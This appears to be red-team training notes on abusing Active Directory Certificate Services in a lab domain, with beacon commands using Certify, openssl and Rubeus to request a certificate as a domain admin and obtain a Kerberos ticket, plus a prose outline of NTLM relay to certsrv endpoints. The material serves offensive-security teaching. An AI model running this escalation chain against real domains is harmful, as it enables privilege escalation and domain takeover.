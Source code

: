 # Misconfigured Certificate Templates

AD CS certificate templates are provided by Microsoft as a starting point for distributing certificates.  They are designed to be duplicated and configured for specific needs.  Misconfigurations within these templates can be abused for privilege escalation. Certify can also find vulnerable templates.

    beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /vulnerable

Let's go through the key parts of this output.

1. This template is served by sub-ca.
2. The template is called CustomUser.
3. ENROLLEE_SUPPLIES_SUBJECT is enabled, which allows the certificate requestor to provide any SAN (subject alternative name).
4. The certificate usage has Client Authentication set.
5. DEV\Domain Users have enrollment rights, so any domain user may request a certificate from this template.

- If a principal you control has WriteOwner, WriteDacl or WriteProperty, then this could also be abused.

This configuration allows any domain user to request a certificate for any other domain user (including a domain admin) and use it for authentication.  Request a certificate for nlamb.

    beacon> getuid
    [*] You are DEV\bfarmer

    beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:CustomUser /altname:nlamb

Copy the whole certificate (both the private key and certificate) and save it to cert.pem on Ubuntu WSL.  Then use the provided openssl command to convert it to pfx format.

    ubuntu@DESKTOP-3BSK7NO ~> openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
    Enter Export Password: pass123
    Verifying - Enter Export Password: pass123

Convert cert.pfx into a base64 encoded string so it can be used with Rubeus

    ubuntu@DESKTOP-3BSK7NO ~> cat cert.pfx | base64 -w 0

Then use asktgt to request a TGT for the user using the certificate.

    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:nlamb /certificate:MIIM7w[...]ECAggA /password:pass123 /nowrap
    
# NTLM Relaying to ADCS HTTP Endpoints

AD CS services support HTTP enrolment methods and even includes a GUI.  This endpoint is usually found at http[s]://<hostname>/certsrv.

If NTLM authentication is enabled, these endpoints are vulnerable to NTLM relay attacks.  A common abuse method is to coerce a domain controller to authenticate to an attacker-controlled location, relay the request to a CA to obtain a certificate for that DC, and then use it to obtain a TGT.
